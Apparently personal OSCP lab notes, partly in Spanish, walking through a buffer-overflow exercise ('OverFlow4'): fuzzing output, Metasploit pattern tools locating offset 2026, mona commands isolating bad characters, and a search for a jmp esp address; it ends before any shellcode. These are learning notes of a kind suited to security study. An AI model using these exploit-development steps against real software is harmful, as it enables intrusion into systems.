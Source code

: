 
# OverFlow4

## Offset

```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
...
Fuzzing crashed at 2100 bytes
```

```php
❯ msf-pattern_create -l 2100
```

```php
❯ msf-pattern_offset -q 70433570
[*] Exact match at offset 2026

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0104FA18
!mona bytearray -cpb "\x00\xa9"

!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00CDFA18
!mona bytearray -cpb "\x00\xa9\xcd"

!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FFFA18
!mona bytearray -cpb "\x00\xa9\xcd\xd4"

!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0113FA18
```

## Obteniendo la dirección de jmp ESP

```php
\x00\xa9\xcd\xd4
```

```php
!mona jmp -r esp -cpb "\x00\xa9\xcd\xd4"
```

![20240228165942.png](20240228165942.png)
